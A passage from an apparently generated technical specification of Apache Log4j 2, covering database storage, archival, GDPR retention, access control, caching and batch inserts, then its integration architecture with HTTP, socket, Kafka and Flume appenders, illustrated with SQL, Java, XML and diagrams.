- **Dual-Write Pattern**: Write to both old and new schemas during transition
- **Background Migration**: Asynchronous data transfer with progress tracking
- **Rollback Capability**: Ability to revert to previous schema versions

**Offline Migration Approach**:
- **Scheduled Downtime**: Planned maintenance windows for schema changes
- **Bulk Operations**: Efficient batch processing for large datasets
- **Validation**: Comprehensive data integrity checks post-migration

#### 6.2.3.2 Versioning Strategy

#### Schema Versioning

**Database Schema Versioning**:
```sql
CREATE TABLE schema_versions (
    version VARCHAR(20) PRIMARY KEY,
    applied_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    description TEXT,
    checksum VARCHAR(64)
);

INSERT INTO schema_versions (version, description, checksum)
VALUES ('2.0.0', 'Add partitioning support', 'abc123...def456');
```

#### Configuration Versioning

**Appender Configuration Versioning**:
```xml
<Configuration schema-version="2.0">
    <Appenders>
        <JdbcAppender name="DatabaseAppender" 
                      table-version="1.2.0"
                      migration-strategy="online">
            <ConnectionSource>
                <DataSource>jdbc:postgresql://localhost:5432/logs</DataSource>
            </ConnectionSource>
        </JdbcAppender>
    </Appenders>
</Configuration>
```

#### 6.2.3.3 Archival Policies

#### Time-based Archival

**Automated Archival Strategy**:
```java
@Component
public class LogArchivalManager {
    @Scheduled(cron = "0 0 2 * * ?") // Daily at 2 AM
    public void archiveOldLogs() {
        // Archive logs older than retention period
        jdbcTemplate.execute("""
            INSERT INTO logs_archive 
            SELECT * FROM logs 
            WHERE event_date < CURRENT_DATE - INTERVAL '90 days'
        """);
        
        // Delete archived logs from active table
        jdbcTemplate.execute("""
            DELETE FROM logs 
            WHERE event_date < CURRENT_DATE - INTERVAL '90 days'
        """);
    }
}
```

#### Storage Tier Management

**Hierarchical Storage Strategy**:
- **Hot Storage**: Recent logs (0-30 days) on high-performance storage
- **Warm Storage**: Older logs (30-90 days) on standard storage
- **Cold Storage**: Archived logs (90+ days) on low-cost storage
- **Frozen Storage**: Compliance logs (1+ years) on archival storage

#### 6.2.3.4 Data Storage and Retrieval Mechanisms

#### Storage Optimization

**Column Store Optimization**:
```sql
-- Columnar storage for analytical queries
CREATE TABLE logs_analytical (
    event_date DATE,
    level VARCHAR(10),
    logger_name VARCHAR(255),
    message_length INTEGER,
    error_count INTEGER
) USING columnar;
```

**Compression Strategies**:
- **Row-level Compression**: Compress CLOB columns containing exceptions
- **Dictionary Compression**: Compress repetitive logger names and levels
- **Time-series Compression**: Specialized compression for timestamp data

#### Retrieval Patterns

**Query Optimization Patterns**:
```java
@Repository
public class LogQueryRepository {
    
    @Query("SELECT l FROM LogEntry l WHERE l.eventDate BETWEEN :start AND :end " +
           "AND l.level IN :levels ORDER BY l.eventDate DESC")
    Page<LogEntry> findByDateRangeAndLevels(
        @Param("start") LocalDateTime start,
        @Param("end") LocalDateTime end,
        @Param("levels") List<Level> levels,
        Pageable pageable
    );
    
    @Query("SELECT l FROM LogEntry l WHERE l.loggerName LIKE :pattern " +
           "AND l.eventDate >= :since ORDER BY l.eventDate DESC")
    List<LogEntry> findRecentByLoggerPattern(
        @Param("pattern") String pattern,
        @Param("since") LocalDateTime since
    );
}
```

#### 6.2.3.5 Caching Policies

#### Query Result Caching

**Redis Cache Integration**:
```java
@Service
public class LogQueryService {
    
    @Cacheable(value = "log-queries", key = "#root.methodName + ':' + #args")
    public List<LogEntry> getRecentErrors(String loggerName, Duration period) {
        return logRepository.findByLoggerAndLevel(loggerName, Level.ERROR, period);
    }
    
    @CacheEvict(value = "log-queries", allEntries = true)
    @Scheduled(fixedDelay = 300000) // 5 minutes
    public void clearQueryCache() {
        // Cache invalidation
    }
}
```

#### Connection Caching

**Database Connection Pooling**:
```xml
<DataSource>
    <Property name="initialSize">5</Property>
    <Property name="maxActive">50</Property>
    <Property name="maxIdle">25</Property>
    <Property name="minIdle">5</Property>
    <Property name="maxWait">10000</Property>
    <Property name="validationQuery">SELECT 1</Property>
    <Property name="testOnBorrow">true</Property>
    <Property name="testWhileIdle">true</Property>
    <Property name="timeBetweenEvictionRunsMillis">30000</Property>
</DataSource>
```

### 6.2.4 Compliance Considerations

#### 6.2.4.1 Data Retention Rules

#### Regulatory Compliance Framework

**GDPR Compliance Strategy**:
```java
@Entity
@Table(name = "logs")
public class LogEntry {
    @Column(name = "personal_data_flag")
    private Boolean containsPersonalData;
    
    @Column(name = "retention_period")
    private Integer retentionDays;
    
    @Column(name = "deletion_date")
    private LocalDateTime deletionDate;
    
    @Column(name = "anonymization_applied")
    private Boolean anonymizationApplied;
}
```

**Retention Policy Implementation**:
```sql
-- Automated data retention procedure
CREATE OR REPLACE FUNCTION apply_retention_policy()
RETURNS void AS $$
BEGIN
    -- Delete logs past retention period
    DELETE FROM logs 
    WHERE event_date < CURRENT_DATE - INTERVAL '7 years'
    AND retention_period IS NULL;
    
    -- Anonymize personal data
    UPDATE logs 
    SET message = regexp_replace(message, '\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b', '[EMAIL]', 'g'),
        anonymization_applied = TRUE
    WHERE personal_data_flag = TRUE 
    AND anonymization_applied = FALSE;
END;
$$ LANGUAGE plpgsql;
```

#### 6.2.4.2 Privacy Controls

#### Data Anonymization

**Personal Data Masking**:
```java
@Component
public class DataAnonymizer {
    private final List<AnonymizationRule> rules = Arrays.asList(
        new EmailAnonymizationRule(),
        new CreditCardAnonymizationRule(),
        new SSNAnonymizationRule(),
        new IPAddressAnonymizationRule()
    );
    
    public String anonymize(String message) {
        String result = message;
        for (AnonymizationRule rule : rules) {
            result = rule.apply(result);
        }
        return result;
    }
}
```

**Right to Erasure Implementation**:
```java
@Service
public class DataErasureService {
    
    @Transactional
    public void eraseUserData(String userId) {
        // Delete logs containing user data
        logRepository.deleteByMdcContaining("userId", userId);
        
        // Anonymize remaining references
        logRepository.anonymizeUserReferences(userId);
        
        // Log erasure action for audit
        auditService.logDataErasure(userId, LocalDateTime.now());
    }
}
```

#### 6.2.4.3 Audit Mechanisms

#### Audit Trail System

**Database Audit Configuration**:
```sql
-- Enable audit logging
ALTER SYSTEM SET log_statement = 'all';
ALTER SYSTEM SET log_line_prefix = '%t [%p]: [%l-1] user=%u,db=%d,app=%a,client=%h ';

-- Create audit table
CREATE TABLE audit_log (
    id SERIAL PRIMARY KEY,
    timestamp TIMESTAMP DEFAULT CURRENT_TIMESTAMP,
    user_name VARCHAR(100),
    operation VARCHAR(50),
    table_name VARCHAR(100),
    record_id VARCHAR(100),
    old_values JSONB,
    new_values JSONB,
    ip_address INET
);
```

**Application-level Auditing**:
```java
@Component
public class DatabaseAuditInterceptor {
    
    @EventListener
    public void handleDataModification(DataModificationEvent event) {
        AuditLogEntry entry = AuditLogEntry.builder()
            .timestamp(LocalDateTime.now())
            .operation(event.getOperation())
            .tableName(event.getTableName())
            .recordId(event.getRecordId())
            .userId(SecurityContextHolder.getContext().getAuthentication().getName())
            .ipAddress(getClientIpAddress())
            .build();
            
        auditRepository.save(entry);
    }
}
```

#### 6.2.4.4 Access Controls

#### Role-based Access Control

**Database Security Model**:
```sql
-- Create roles for different access levels
CREATE ROLE log_reader;
CREATE ROLE log_writer;
CREATE ROLE log_admin;

-- Grant appropriate permissions
GRANT SELECT ON logs TO log_reader;
GRANT INSERT ON logs TO log_writer;
GRANT ALL ON logs TO log_admin;

-- Row-level security for multi-tenant environments
CREATE POLICY tenant_isolation ON logs
FOR ALL TO log_reader
USING (tenant_id = current_setting('app.current_tenant_id'));
```

**Application Security Integration**:
```java
@Configuration
@EnableGlobalMethodSecurity(prePostEnabled = true)
public class DatabaseSecurityConfig {
    
    @Bean
    public DataSource secureDataSource() {
        HikariDataSource dataSource = new HikariDataSource();
        dataSource.setJdbcUrl("jdbc:postgresql://localhost:5432/logs");
        dataSource.setConnectionInitSql("SET app.current_tenant_id = ?");
        return dataSource;
    }
    
    @PreAuthorize("hasRole('LOG_ADMIN')")
    public void deleteLogEntries(List<Long> ids) {
        logRepository.deleteAllById(ids);
    }
}
```

### 6.2.5 Performance Optimization

#### 6.2.5.1 Query Optimization Patterns

#### Index-based Optimization

**Strategic Index Design**:
```sql
-- Multi-column indexes for common query patterns
CREATE INDEX idx_logs_performance ON logs (event_date, level, logger_name) 
WHERE event_date >= CURRENT_DATE - INTERVAL '30 days';

-- Partial indexes for specific use cases
CREATE INDEX idx_logs_errors ON logs (event_date, logger_name, message) 
WHERE level IN ('ERROR', 'FATAL');

-- Functional indexes for JSON queries
CREATE INDEX idx_logs_mdc_user ON logs USING GIN ((mdc_data->>'userId')) 
WHERE mdc_data ? 'userId';
```

#### Query Execution Optimization

**Prepared Statement Caching**:
```java
@Repository
public class OptimizedLogRepository {
    
    @Autowired
    private JdbcTemplate jdbcTemplate;
    
    private final String FIND_BY_CRITERIA = """
        SELECT id, event_date, level, logger_name, message 
        FROM logs 
        WHERE event_date BETWEEN ? AND ? 
        AND level = ANY(?) 
        AND logger_name LIKE ?
        ORDER BY event_date DESC 
        LIMIT ?
    """;
    
    public List<LogEntry> findByCriteria(LocalDateTime start, LocalDateTime end, 
                                       List<String> levels, String loggerPattern, int limit) {
        return jdbcTemplate.query(FIND_BY_CRITERIA, 
            new LogEntryRowMapper(), start, end, levels.toArray(), loggerPattern, limit);
    }
}
```

#### 6.2.5.2 Connection Pooling

#### Advanced Connection Pool Configuration

**HikariCP Optimization**:
```xml
<Property name="dataSourceClassName">org.postgresql.ds.PGSimpleDataSource</Property>
<Property name="maximumPoolSize">50</Property>
<Property name="minimumIdle">10</Property>
<Property name="connectionTimeout">30000</Property>
<Property name="idleTimeout">600000</Property>
<Property name="maxLifetime">1800000</Property>
<Property name="leakDetectionThreshold">60000</Property>
<Property name="registerMbeans">true</Property>
<Property name="poolName">Log4j2-HikariCP</Property>
```

**Connection Health Monitoring**:
```java
@Component
public class ConnectionHealthMonitor {
    
    @Autowired
    private DataSource dataSource;
    
    @Scheduled(fixedDelay = 30000)
    public void monitorConnectionHealth() {
        if (dataSource instanceof HikariDataSource) {
            HikariDataSource hikariDataSource = (HikariDataSource) dataSource;
            HikariPoolMXBean poolMXBean = hikariDataSource.getHikariPoolMXBean();
            
            int activeConnections = poolMXBean.getActiveConnections();
            int idleConnections = poolMXBean.getIdleConnections();
            int totalConnections = poolMXBean.getTotalConnections();
            
            if (activeConnections > totalConnections * 0.8) {
                logger.warn("High connection utilization: {}/{}", activeConnections, totalConnections);
            }
        }
    }
}
```

#### 6.2.5.3 Caching Strategy

#### Multi-level Caching Architecture

**L1 Cache (Application Level)**:
```java
@Service
public class LogCacheService {
    
    private final Cache<String, List<LogEntry>> recentLogsCache = 
        Caffeine.newBuilder()
            .maximumSize(1000)
            .expireAfterWrite(Duration.ofMinutes(5))
            .recordStats()
            .build();
    
    public List<LogEntry> getRecentLogs(String loggerName, Level level) {
        String cacheKey = loggerName + ":" + level.name();
        return recentLogsCache.get(cacheKey, key -> 
            logRepository.findRecentByLoggerAndLevel(loggerName, level, Duration.ofMinutes(10))
        );
    }
}
```

**L2 Cache (Distributed)**:
```java
@Configuration
public class DistributedCacheConfig {
    
    @Bean
    public RedisTemplate<String, Object> redisTemplate(RedisConnectionFactory connectionFactory) {
        RedisTemplate<String, Object> template = new RedisTemplate<>();
        template.setConnectionFactory(connectionFactory);
        template.setDefaultSerializer(new GenericJackson2JsonRedisSerializer());
        template.setKeySerializer(new StringRedisSerializer());
        return template;
    }
    
    @Bean
    public CacheManager cacheManager(RedisConnectionFactory connectionFactory) {
        RedisCacheConfiguration config = RedisCacheConfiguration.defaultCacheConfig()
            .entryTtl(Duration.ofMinutes(10))
            .serializeKeysWith(RedisSerializationContext.SerializationPair.fromSerializer(new StringRedisSerializer()))
            .serializeValuesWith(RedisSerializationContext.SerializationPair.fromSerializer(new GenericJackson2JsonRedisSerializer()));
        
        return RedisCacheManager.builder(connectionFactory)
            .cacheDefaults(config)
            .build();
    }
}
```

#### 6.2.5.4 Batch Processing Approach

#### Batch Insert Optimization

**JDBC Batch Processing**:
```java
@Component
public class BatchLogProcessor {
    
    @Autowired
    private JdbcTemplate jdbcTemplate;
    
    private final String INSERT_SQL = """
        INSERT INTO logs (event_date, level, logger_name, message, thread_name, exception_text)
        VALUES (?, ?, ?, ?, ?, ?)
    """;
    
    public void processBatch(List<LogEntry> logEntries) {
        jdbcTemplate.batchUpdate(INSERT_SQL, new BatchPreparedStatementSetter() {
            @Override
            public void setValues(PreparedStatement ps, int i) throws SQLException {
                LogEntry entry = logEntries.get(i);
                ps.setTimestamp(1, Timestamp.valueOf(entry.getEventDate()));
                ps.setString(2, entry.getLevel().name());
                ps.setString(3, entry.getLoggerName());
                ps.setString(4, entry.getMessage());
                ps.setString(5, entry.getThreadName());
                ps.setString(6, entry.getExceptionText());
            }
            
            @Override
            public int getBatchSize() {
                return logEntries.size();
            }
        });
    }
}
```

#### Asynchronous Processing

**Message Queue Integration**:
```java
@Component
public class AsyncDatabaseProcessor {
    
    private final BlockingQueue<LogEntry> logQueue = new LinkedBlockingQueue<>(10000);
    private final ExecutorService processingExecutor = Executors.newFixedThreadPool(4);
    
    @PostConstruct
    public void initializeProcessing() {
        processingExecutor.submit(this::processLogQueue);
    }
    
    private void processLogQueue() {
        List<LogEntry> batch = new ArrayList<>();
        
        while (!Thread.currentThread().isInterrupted()) {
            try {
                LogEntry entry = logQueue.take();
                batch.add(entry);
                
                // Process batch when full or timeout
                if (batch.size() >= 100 || shouldFlushBatch()) {
                    batchLogProcessor.processBatch(new ArrayList<>(batch));
                    batch.clear();
                }
            } catch (InterruptedException e) {
                Thread.currentThread().interrupt();
                break;
            }
        }
    }
}
```

### 6.2.6 Database Architecture Diagrams

#### 6.2.6.1 Database Schema Architecture

```mermaid
erDiagram
    LogEntry {
        bigint id PK
        timestamp event_date
        varchar level
        varchar logger_name
        text message
        varchar thread_name
        clob exception_text
        varchar marker_name
        jsonb mdc_data
        text ndc_data
        varchar request_id
        varchar user_id
        varchar hostname
    }
    
    LogEntryArchive {
        bigint id PK
        timestamp event_date
        varchar level
        varchar logger_name
        text message
        varchar thread_name
        clob exception_text
        timestamp archived_at
    }
    
    SchemaVersion {
        varchar version PK
        timestamp applied_at
        text description
        varchar checksum
    }
    
    AuditLog {
        bigint id PK
        timestamp operation_time
        varchar user_name
        varchar operation
        varchar table_name
        varchar record_id
        jsonb old_values
        jsonb new_values
        inet ip_address
    }
    
    LogEntry ||--o{ LogEntryArchive : "archived_to"
    LogEntry ||--o{ AuditLog : "audits"
    SchemaVersion ||--o{ LogEntry : "defines_schema"
```

#### 6.2.6.2 Data Flow Architecture

```mermaid
graph TB
    subgraph "Application Layer"
        A[Logger.info/warn/error] --> B[LogEvent Creation]
        B --> C[Filter Chain]
        C --> D[Layout Processing]
    end
    
    subgraph "Database Appender Layer"
        D --> E[Database Appender]
        E --> F{Appender Type}
        F -->|JDBC| G[JDBC Appender]
        F -->|JPA| H[JPA Appender]
        F -->|NoSQL| I[NoSQL Appender]
    end
    
    subgraph "Connection Management"
        G --> J[Connection Pool]
        H --> K[EntityManager]
        I --> L[Database Driver]
    end
    
    subgraph "Database Layer"
        J --> M[(Relational DB)]
        K --> M
        L --> N[(NoSQL DB)]
    end
    
    subgraph "Data Processing"
        M --> O[Batch Processing]
        N --> O
        O --> P[Indexing]
        P --> Q[Archival]
        Q --> R[(Archive Storage)]
    end
    
    subgraph "Monitoring & Compliance"
        M --> S[Audit Trail]
        N --> S
        S --> T[Compliance Monitoring]
        T --> U[Data Retention]
    end
```

#### 6.2.6.3 Replication Architecture

```mermaid
graph TB
    subgraph "Primary Database Cluster"
        A[Primary Database] --> B[Synchronous Replica]
        A --> C[Asynchronous Replica]
    end
    
    subgraph "Application Tier"
        D[Log4j2 Application] --> E[Database Appender]
        E --> F{Read/Write Split}
        F -->|Writes| A
        F -->|Reads| G[Load Balancer]
        G --> B
        G --> C
        G --> H[Read Replica 1]
        G --> I[Read Replica 2]
    end
    
    subgraph "Backup & Recovery"
        A --> J[Transaction Log Shipping]
        J --> K[Backup Database]
        K --> L[Point-in-Time Recovery]
    end
    
    subgraph "Cross-Region Replication"
        A --> M[Cross-Region Replica]
        M --> N[Disaster Recovery Site]
    end
    
    subgraph "Monitoring"
        A --> O[Replication Monitor]
        B --> O
        C --> O
        O --> P[Health Dashboard]
        P --> Q[Alerting System]
    end
```

#### 6.2.6.4 NoSQL Database Architecture

```mermaid
graph TB
    subgraph "MongoDB Cluster"
        A[Primary] --> B[Secondary 1]
        A --> C[Secondary 2]
        A --> D[Arbiter]
    end
    
    subgraph "Cassandra Cluster"
        E[Node 1] --> F[Node 2]
        F --> G[Node 3]
        G --> E
    end
    
    subgraph "Application Layer"
        H[Log4j2 MongoAppender] --> I[MongoDB Driver]
        J[Log4j2 CassandraAppender] --> K[Cassandra Driver]
    end
    
    subgraph "Connection Management"
        I --> L[Connection Pool]
        K --> M[Session Pool]
        L --> A
        M --> E
    end
    
    subgraph "Data Distribution"
        A --> N[Sharding]
        N --> O[Shard 1]
        N --> P[Shard 2]
        N --> Q[Shard 3]
    end
    
    subgraph "Consistency & Replication"
        E --> R[Replication Factor]
        R --> S[Consistency Level]
        S --> T[Read/Write Consistency]
    end
```

### 6.2.7 References

#### Files Examined
- `log4j-jdbc-dbcp2/pom.xml` - JDBC DBCP2 module configuration and dependencies
- `log4j-jdbc-dbcp2/src/test/resources/log4j2-jdbc-dbcp2.xml` - JDBC appender test configuration examples
- `log4j-jpa/pom.xml` - JPA module configuration and Hibernate dependencies
- `log4j-jpa/src/test/java/org/apache/logging/log4j/core/appender/db/jpa/TestBaseEntity.java` - JPA entity design patterns
- `log4j-jpa/src/test/resources/META-INF/persistence.xml` - JPA persistence configuration
- `log4j-mongodb3/pom.xml` - MongoDB 3.x module configuration
- `log4j-cassandra/pom.xml` - Cassandra module configuration
- `log4j-cassandra/src/main/java/org/apache/logging/log4j/cassandra/CassandraManager.java` - Cassandra implementation details
- `log4j-cassandra/src/test/resources/CassandraAppenderTest.xml` - Cassandra appender configuration
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/db/jdbc/ColumnConfig.java` - JDBC column configuration framework
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/db/ColumnMapping.java` - Database column mapping abstractions
- `log4j-core/src/main/java/org/apache/logging/log4j/core/appender/nosql/NoSqlObject.java` - NoSQL abstraction layer

#### Technical Specification Sections Retrieved
- **3.5 DATABASES & STORAGE** - Database technology overview and dependency specifications
- **1.2 SYSTEM OVERVIEW** - System architecture context and integration patterns
- **5.1 HIGH-LEVEL ARCHITECTURE** - Overall system design and component relationships

## 6.3 INTEGRATION ARCHITECTURE

### 6.3.1 Integration Architecture Overview

Apache Log4j 2 implements a **comprehensive integration architecture** that enables seamless connectivity with diverse external systems, protocols, and platforms. Rather than functioning as an isolated logging framework, Log4j 2 serves as an integration hub that bridges applications with enterprise infrastructure, message brokers, databases, and monitoring systems through a rich ecosystem of specialized appender modules and protocol handlers.

The integration architecture is built on three foundational pillars:

- **Protocol Diversity**: Support for HTTP/HTTPS, TCP/UDP, binary protocols, and message queue protocols
- **Extensible Plugin Framework**: Modular design enabling custom integration components
- **Enterprise Integration Patterns**: Implementation of standard patterns for reliable message delivery, error handling, and failover

#### 6.3.1.1 Integration Scope and Capabilities

```mermaid
graph TB
    subgraph "Core Integration Framework"
        A[LoggerContext] --> B[Plugin Registry]
        B --> C[Appender Factory]
        C --> D[Manager Registry]
    end
    
    subgraph "Protocol Handlers"
        E[HTTP/HTTPS] --> F[HttpAppender]
        G[TCP/UDP] --> H[SocketAppender]
        I[Binary Protocols] --> J[KafkaAppender]
        K[Message Queues] --> L[JmsAppender]
    end
    
    subgraph "External System Integration"
        M[Database Systems] --> N[JdbcAppender]
        O[Message Brokers] --> P[FlumeAppender]
        Q[NoSQL Stores] --> R[MongoAppender]
        S[Monitoring Systems] --> T[Custom Appenders]
    end
    
    subgraph "Enterprise Features"
        U[SSL/TLS Security] --> V[Certificate Management]
        W[Authentication] --> X[Authorization Framework]
        Y[Connection Pooling] --> Z[Resource Management]
    end
    
    D --> E
    D --> G
    D --> I
    D --> K
    F --> M
    H --> O
    J --> Q
    L --> S
    V --> F
    X --> H
    Z --> J
```

#### 6.3.1.2 Integration Architecture Principles

| Design Principle | Implementation | Benefits |
|---|---|---|
| **Pluggable Architecture** | Annotation-based plugin discovery | Extensible integration components |
| **Connection Pooling** | Managed connection lifecycle | Resource optimization and scalability |
| **Fault Tolerance** | Retry mechanisms and failover | Resilient integration patterns |
| **Security by Design** | SSL/TLS and authentication support | Enterprise-grade security |

### 6.3.2 API Design

#### 6.3.2.1 Protocol Specifications

##### 6.3.2.1.1 HTTP/HTTPS Integration

Apache Log4j 2 provides comprehensive HTTP/HTTPS support through the `HttpAppender` with `HttpURLConnectionManager`, enabling REST API integration and web service connectivity.

**Protocol Implementation Features**:
- **HTTP Methods**: Full support for GET, POST, PUT operations
- **Header Management**: Custom header configuration via Property elements
- **Content Negotiation**: Automatic content-type detection based on file extensions (XML, JSON, Properties)
- **Conditional Requests**: Support for If-Modified-Since headers for efficient polling

**Configuration Example**:
```xml
<HttpAppender name="RestApiAppender" url="https://api.logging.example.com/events">
    <Property name="Content-Type">application/json</Property>
    <Property name="Authorization">Bearer ${env:API_TOKEN}</Property>
    <JsonLayout complete="false" compact="true"/>
    <ConnectTimeoutMillis>5000</ConnectTimeoutMillis>
    <ReadTimeoutMillis>10000</ReadTimeoutMillis>
</HttpAppender>
```

##### 6.3.2.1.2 TCP/UDP Socket Communication

The `SocketAppender` provides raw socket communication capabilities with comprehensive protocol support and performance optimization.

**Protocol Support Matrix**:
- **TCP**: Reliable stream-based communication with connection management
- **UDP**: Connectionless datagram communication for high-throughput scenarios
- **SSL**: Encrypted socket communication with full certificate support

**Socket Configuration Options**:
```xml
<SocketAppender name="TcpAppender" host="log.example.com" port="4560" protocol="TCP">
    <SocketOptions>
        <keepAlive>true</keepAlive>
        <sendBufferSize>65536</sendBufferSize>
        <receiveBufferSize>65536</receiveBufferSize>
        <soTimeout>30000</soTimeout>
        <tcpNoDelay>true</tcpNoDelay>
    </SocketOptions>
</SocketAppender>
```

##### 6.3.2.1.3 Binary Protocol Support

Log4j 2 supports multiple binary protocols for high-performance integration scenarios:

**Apache Kafka Protocol**:
- Native Kafka producer integration via `KafkaAppender`
- Configurable producer properties for throughput optimization
- Custom key resolution using `StrSubstitutor`

**Apache Flume Avro RPC**:
- Native Avro RPC protocol support via `FlumeAppender`
- Embedded agent support (`FlumeEmbeddedManager`)
- Persistent queue implementation with Berkeley DB

**ZeroMQ Protocol**:
- PUB/SUB pattern implementation via `JeroMqAppender`
- Configurable I/O threads and socket options
- Multi-endpoint binding capabilities

#### 6.3.2.2 Authentication Methods

##### 6.3.2.2.1 Basic Authentication

Log4j 2 implements HTTP Basic Authentication through the `BasicAuthorizationProvider` class, supporting secure credential management.

**Implementation Features**:
- Username/password configuration via properties
- Base64 encoding for Authorization header
- `PasswordDecryptor` interface for encrypted credential support
- Environment variable and system property integration

**Configuration Pattern**:
```xml
<HttpAppender name="SecureHttpAppender" url="https://secure.logging.example.com/events">
    <Property name="Authorization">Basic ${env:BASIC_AUTH_TOKEN}</Property>
    <PatternLayout pattern="%d{ISO8601} [%t] %-5level %logger - %msg%n"/>
</HttpAppender>
```

##### 6.3.2.2.2 SSL/TLS Client Certificate Authentication

Comprehensive SSL/TLS support enables client certificate authentication for enterprise security requirements.

**Certificate Management Features**:
- KeyStore and TrustStore configuration support
- Multiple password providers (Memory, File, Environment)
- Configurable SSL protocols and cipher suites
- Certificate validation and hostname verification

**SSL Configuration Example**:
```xml
<SslConfiguration>
    <KeyStore location="client-keystore.jks" password="${env:KEYSTORE_PASSWORD}"/>
    <TrustStore location="ca-truststore.jks" password="${env:TRUSTSTORE_PASSWORD}"/>
    <Protocol>TLSv1.2</Protocol>
    <VerifyHostName>true</VerifyHostName>
</SslConfiguration>
```

#### 6.3.2.3 Authorization Framework

##### 6.3.2.3.1 Extensible Authorization Architecture

The `AuthorizationProvider` interface enables custom authorization implementations for diverse security requirements.

**Authorization Components**:
- **Property-based Configuration**: Secure credential storage and retrieval
- **Spring Security Integration**: Seamless integration via Spring Boot module
- **JNDI Authentication**: Enterprise directory service integration for JMS connections
- **Custom Authorization Providers**: Extensible framework for custom authentication schemes

##### 6.3.2.3.2 Integration with Enterprise Security

```mermaid
sequenceDiagram
    participant App as Application
    participant Logger as Logger
    participant AuthProvider as AuthorizationProvider
    participant ExtSys as External System
    
    App->>Logger: Log Event
    Logger->>AuthProvider: Authenticate Request
    AuthProvider->>AuthProvider: Validate Credentials
    AuthProvider->>Logger: Return Authorization
    Logger->>ExtSys: Send Authenticated Request
    ExtSys->>Logger: Acknowledge Receipt
    Logger->>App: Complete Processing
```

#### 6.3.2.4 Rate Limiting Strategy

##### 6.3.2.4.1 Throughput Management

Log4j 2 implements multiple rate limiting strategies to prevent system overload and ensure stable performance.

**Rate Limiting Mechanisms**:
- **Retry Policies**: Configurable retry counts with exponential backoff (KafkaAppender)
- **Reconnection Delays**: Configurable delays for network failure recovery
- **Buffer Management**: Asynchronous appenders with configurable buffer sizes
- **Batch Processing**: Aggregated processing for high-throughput scenarios

**Performance Optimization Configuration**:
```xml
<AsyncAppender name="RateLimitedAppender" bufferSize="262144">
    <BlockingQueueFactory>
        <LinkedTransferQueue/>
    </BlockingQueueFactory>
    <AppenderRef ref="KafkaAppender"/>
    <includeLocation>false</includeLocation>
    <shutdownTimeout>3000</shutdownTimeout>
</AsyncAppender>
```

##### 6.3.2.4.2 Backpressure Handling

```mermaid
flowchart TB
    A[Log Event] --> B{Buffer Available?}
    B -->|Yes| C[Enqueue Event]
    B -->|No| D{Backpressure Policy}
    D -->|BLOCK| E[Wait for Space]
    D -->|DISCARD| F[Drop Event]
    D -->|SYNCHRONOUS| G[Direct Processing]
    E --> H[Retry Enqueue]
    H --> C
    C --> I[Async Processing]
    F --> J[Log Discard Warning]
    G --> I
    I --> K[External System]
```

#### 6.3.2.5 Versioning Approach

##### 6.3.2.5.1 API Versioning Strategy

Log4j 2 implements a comprehensive versioning strategy supporting backward compatibility and gradual migration.

**Versioning Components**:
- **Multi-release JARs**: Java 9+ feature utilization while maintaining compatibility
- **API/Implementation Separation**: Clean separation via log4j-api facade
- **Bridge Modules**: Backward compatibility for legacy frameworks (log4j-1.2-api)
- **SLF4J Compatibility**: Support for multiple SLF4J versions (1.7.x, 1.8.x)

##### 6.3.2.5.2 Migration Path Support

| Migration Scenario | Bridge Module | Compatibility Level |
|---|---|---|
| **Log4j 1.x to 2.x** | log4j-1.2-api | Full API compatibility |
| **Commons Logging** | log4j-jcl | Complete replacement |
| **Java Util Logging** | log4j-jul | JUL handler integration |
| **SLF4J Applications** | log4j-slf4j-impl | Native SLF4J binding |

#### 6.3.2.6 Documentation Standards

##### 6.3.2.6.1 Configuration Documentation

Log4j 2 provides comprehensive documentation standards for integration configuration:

**Documentation Framework**:
- **Plugin-based Configuration**: XML/JSON/YAML format support with schema validation
- **Comprehensive Javadoc**: Usage examples and integration patterns
- **Maven Site Generation**: Automated documentation for all modules
- **Integration Samples**: Practical examples in log4j-samples modules

##### 6.3.2.6.2 API Documentation Architecture

```mermaid
graph TB
    subgraph "Documentation Sources"
        A[JavaDoc Comments] --> B[Maven Site Plugin]
        C[XML Schema] --> D[Configuration Reference]
        E[Sample Projects] --> F[Integration Examples]
    end
    
    subgraph "Generated Documentation"
        B --> G[API Reference]
        D --> H[Configuration Guide]
        F --> I[Integration Patterns]
    end
    
    subgraph "Distribution"
        G --> J[Website Publication]
        H --> K[User Manual]
        I --> L[Developer Guide]
    end
```

### 6.3.3 Message Processing

#### 6.3.3.1 Event Processing Patterns

##### 6.3.3.1.1 Synchronous Processing

Log4j 2 supports direct synchronous event processing for low-latency requirements and simple deployment scenarios.

**Synchronous Processing Characteristics**:
- **Direct Dispatch**: Event processing within caller thread
- **Immediate Processing**: No queuing or buffering overhead
- **Blocking Behavior**: Calling thread blocks until processing completes
- **Simple Error Handling**: Direct exception propagation to caller

**Performance Profile**:
- **Latency**: 50-100 microseconds for simple appenders
- **Throughput**: Limited by slowest appender in chain
- **Resource Usage**: Minimal memory overhead
- **Scalability**: Scales with application thread count

##### 6.3.3.1.2 Asynchronous Processing

The framework implements high-performance asynchronous processing using the LMAX Disruptor pattern for enterprise-scale logging requirements.

**LMAX Disruptor Integration**:
- **Lock-free Ring Buffer**: Mechanical sympathy for CPU cache optimization
- **Configurable Buffer Sizes**: Power-of-2 sizing for optimal performance
- **Wait Strategies**: Configurable strategies for latency vs. CPU usage trade-offs
- **Batch Processing**: Automatic event batching for improved throughput

**Asynchronous Architecture**:
```mermaid
sequenceDiagram
    participant AppThread as Application Thread
    participant RingBuffer as Ring Buffer
    participant EventHandler as Event Handler
    participant Appender as Appender
    
    AppThread->>RingBuffer: Enqueue LogEvent
    Note over RingBuffer: Lock-free enqueue
    RingBuffer->>EventHandler: Notify Event Available
    EventHandler->>EventHandler: Batch Events
    EventHandler->>Appender: Process Event Batch
    Appender->>Appender: Format and Output
    AppThread->>AppThread: Continue Processing
```

#### 6.3.3.2 Message Queue Architecture

##### 6.3.3.2.1 Apache Kafka Integration

The `KafkaAppender` provides comprehensive Apache Kafka integration with production-ready features.

**Kafka Integration Features**:
- **KafkaManager**: Configurable producer properties for optimal performance
- **Delivery Modes**: Synchronous and asynchronous message delivery
- **Custom Key Resolution**: Dynamic key assignment using `StrSubstitutor`
- **Retry Logic**: Configurable retry attempts with exponential backoff

**Kafka Configuration Example**:
```xml
<KafkaAppender name="KafkaAppender" topic="application-logs">
    <Property name="bootstrap.servers">kafka1:9092,kafka2:9092,kafka3:9092</Property>
